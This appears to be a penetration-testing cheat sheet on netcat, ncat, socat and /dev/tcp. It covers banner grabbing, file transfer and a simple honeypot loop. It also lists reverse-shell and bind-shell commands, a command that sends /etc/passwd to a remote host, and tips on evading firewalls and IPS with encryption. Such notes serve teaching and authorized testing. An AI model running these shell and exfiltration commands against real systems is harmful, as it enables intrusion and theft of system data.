

# Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```bash
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```bash
nc -v 192.168.0.10 1337 < xpto.txt
```

### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```bash
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

## Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2
